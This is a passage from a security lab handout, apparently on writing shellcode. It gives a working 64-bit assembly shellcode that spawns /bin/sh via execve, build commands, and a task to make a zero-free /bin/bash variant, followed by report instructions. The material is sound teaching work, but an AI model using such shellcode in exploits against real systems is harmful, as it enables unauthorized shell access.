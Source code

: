 
&emsp; &emsp;  &emsp;  &emsp;  &emsp;  &emsp;  &emsp;  &emsp; **Listing 4:** A 64-bit shellcode `mysh64.s`
```
section .text
global _start
    _start:
        ; The following code calls execve("/bin/sh", ...)
        xor rdx, rdx ;         3rd argument (stored in rdx)
        push rdx
        mov rax,’/bin//sh’
        push rax
        mov rdi, rsp ;         1st argument (stored in rdi)
        push rdx
        push rdi
        mov rsi, rsp ;         2nd argument (stored in rsi)
        xor rax, rax
        mov al, 0x3b ; execve()
        syscall
```
We can use the following commands to compile the assemble code into 64-bit binary code:
```
$ nasm -f elf64 mysh_64.s -o mysh_64.o
$ ld mysh_64.o -o mysh_64
```
**Task.** Repeat Task 1.b for this 64-bit shellcode. Namely, instead of executing "`/bin/sh`", we need to execute "`/bin/bash`", and we are not allowed to use any redundant/in the command string, i.e., the length of the command must be 9 bytes (`/bin/bash`). Please demonstrate how you can do that. In addition to showing that you can get a bash shell, you also need to show that there is no zero in your code.

## 5 Submission

You need to submit a detailed lab report, with screenshots, to describe what you have done and what you have observed. You also need to provide explanation to the observations that are interesting or surprising. Please also list the important code snippets followed by explanation. Simply attaching code without any explanation will not receive credits.

